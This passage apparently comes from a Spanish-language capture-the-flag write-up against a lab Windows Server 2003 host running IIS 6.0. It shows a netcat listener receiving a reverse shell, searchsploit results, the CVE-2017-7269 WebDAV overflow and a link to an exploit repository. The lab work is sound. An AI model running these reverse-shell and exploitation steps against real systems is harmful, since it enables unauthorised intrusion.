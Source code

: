 Verificaremos que hemos logrado acceder al equipo correctamente.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

### Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow \[RCE] (CVE-2017-7269)

Otra manera de realizar esta explotación, es revisando si existen vulnerabilidades para la versión de `IIS` que se encuentra en el servidor víctima. Entre los resultados obtenidos, verificamos que disponemos de un un exploit enPython que nos puede interesar.

```bash
❯ searchsploit IIS 6.0
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Inter | windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Rem | windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion D | windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of  | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhausti | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Rem | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypa | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypa | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypa | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypa | windows/remote/8806.pl
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilit | windows/remote/19033.txt
------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Revisando las vulnerabilidades, nos encontramos con el siguiente `CVE-2017-7269`.

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2017-7269" %}

{% hint style="danger" %}
Desbordamiento de búfer en la función ScStoragePathFromUrl en el servicio WebDAV en Internet Information Services (IIS) 6.0 en Microsoft Windows Server 2003 R2 permite a atacantes remotos ejecutar código arbitrario a través de una cabecera larga comenzando con "If:
{% endhint %}

Nos descargaremos el siguiente repositorio de GitHub para realizar la explotación.

{% embed url="https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269" %}

Nos pondremos en escucha por un puerto para recibir la Reverse Shell del exploit.
